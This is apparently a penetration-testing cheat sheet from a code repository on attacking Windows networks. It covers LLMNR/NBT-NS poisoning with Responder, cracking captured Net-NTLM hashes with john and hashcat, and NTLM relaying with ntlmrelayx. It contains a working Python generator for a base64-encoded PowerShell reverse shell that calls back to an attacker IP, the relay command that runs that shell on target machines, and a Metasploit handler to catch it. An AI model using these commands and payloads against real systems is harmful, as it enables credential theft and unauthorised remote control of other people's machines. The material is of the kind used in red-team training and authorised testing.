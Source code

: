 ## LLMNR & NBT-NS Poisoning
- The victim wants to go to the print server at \\printserver, but mistakenly types in \\pintserver.
- The DNS server responds to the victim saying that it doesn’t know that host.
- The victim then asks if there is anyone on the local network that knows the location of \\pintserver.
- The attacker responds to the victim saying that it is the \\pintserver.
- The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
- The attacker can now crack the hash to discover the password.

### Responder
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

## Network Windows Authentication Cracking
### NTLMv1 (Net-NTLMv1) Crack
```
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 (Net-NTLMv2) Crack
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## NTLM Relaying
- SMB Signing must be disabled, and this is the default setting except for the domain controllers.
- Relay the hashes to another machine.
- User must have admin access on this machine.

### Responder with SMB & HTTP Disabled (in Responder.conf)
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

### Determine the machines that have SMB signing disabled

### Powershell Reverse Encoded Shell
```
import base64
ip = '10.10.12.133' # your reverse shell ip
port = 4444 # your reverse shell port
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print cmdline
```

### Run ntlmrelayx.py script and pass to it the encoded reverse shell.
```
git clone https://github.com/SecureAuthCorp/impacket
python3 ntlmrelayx.py -smb2support -tf targets.txt -of result -debug -c 'powershell -e EnCoDeDShElL'
```

### Metasploit multi handler to receive the shell.
```
msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost 10.0.2.15
set lport 4444
set ExitOnSession False
exploit -j
```

### Overall Process Overview
Machine 10.0.2.7 asks for an unknown host, then the attacker machine 10.0.2.15 responds to it with its own IP address, then machine 10.0.2.7 sends its credentials to the attacker machine 10.0.2.15 on port SMB, then the attacker machine takes these credentials and relays them to another machine 10.0.2.6, then machine 10.0.2.6 executed our reverse shell and the shell get back to us at 10.0.2.15.

Stealing hashes from 10.0.2.7 and authenticate with them to 10.0.2.6
